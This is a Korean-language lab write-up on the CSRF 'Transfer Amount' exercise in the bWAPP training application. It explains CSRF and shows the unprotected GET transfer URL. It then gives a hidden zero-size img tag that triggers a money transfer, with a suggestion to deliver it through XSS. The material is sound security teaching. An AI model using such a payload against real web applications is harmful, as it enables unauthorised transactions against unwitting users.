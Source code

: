 ```yaml
---
layout: single
title: (bWAPP)CSRF (Transfer Amount)
categories: bwapp
tag: [CSRF, bwapp, bee box, OWASP TOP 10, OWASP]
toc: true
author_profile: false
---
```


# 취약점 설명
> CSRF 공격은 사용자의 의도와는 무관하게 공격자가 특정 웹 애플리케이션에 요청을 보낼 수 있게 하는 공격이며, 공격자가 사용자의 권한을 이용해 임의의 요청을 서버에 보낼 수 있습니다. 이로 인해 사용자가 의도하지 않은 작업이 수행될 수 있다.

![그림 1-1](/assets/image/bwapp/csrf/CSRF%20(Transfer%20Amount)/image.png)
- 송금 기능이 존재하고 있다.

```
bWAPP/csrf_2.php?account=123-45678-90&amount=500&action=transfer
```

- 송금을 하게되면, 또한 아무런 보안 기법이 적용되어 있지 않은 상태로 GET 방식으로 데이터가 전송된다.

![그림 1-2](/assets/image/bwapp/csrf/CSRF%20(Transfer%20Amount)/image-1.png)
- 송금시 보유중인 유료가 차감되며, 특정 계좌로 송금하게 된다.
- 이 또한 계좌 파라미터인 account값을 조작하여 악성 스크립트를 제작하여 xss 와 연계하여 희생자에게 전달할 수 있다.

```
<img src="http://ip/bWAPP/csrf_2.php?account=123-45678-90&amount=500&action=transfer" height=0 width=0>
```